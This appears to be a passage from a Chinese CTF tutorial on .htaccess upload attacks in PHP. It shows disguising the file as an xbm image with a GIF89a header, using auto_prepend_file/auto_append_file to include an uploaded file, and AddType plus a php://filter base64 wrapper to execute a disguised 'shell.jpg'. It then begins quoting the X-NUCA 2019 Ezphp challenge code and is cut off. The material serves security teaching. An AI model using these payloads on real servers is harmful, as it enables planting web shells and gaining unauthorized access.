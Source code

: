 这里的原理其实是伪造为xbm文件，xbm文件是一种图片格式的文件。

![image-20210415134916699](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415134916699.png)

不过还需要在上传的文件当中加上一个gif的文件头GIF89a

### 进行文件包含

- `auto_prepend_file` 在页面顶部加载文件
- `auto_append_file` 在页面底部加载文件

例如写入这个

```
php_value auto_prepend_file 1.php
```

那么就会将`1.php`这个文件包含到所有文件当中

![image-20210415141120350](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415141120350.png)

![image-20210415141147493](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415141147493.png)

![image-20210415141159145](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415141159145.png)

我们还可以利用php的伪协议来进行编码绕过

```
AddType application/x-httpd-php .jpg
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.jpg"
```

## 例题：X-NUCA'2019—Ezphp

题目：

```php
 <?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
```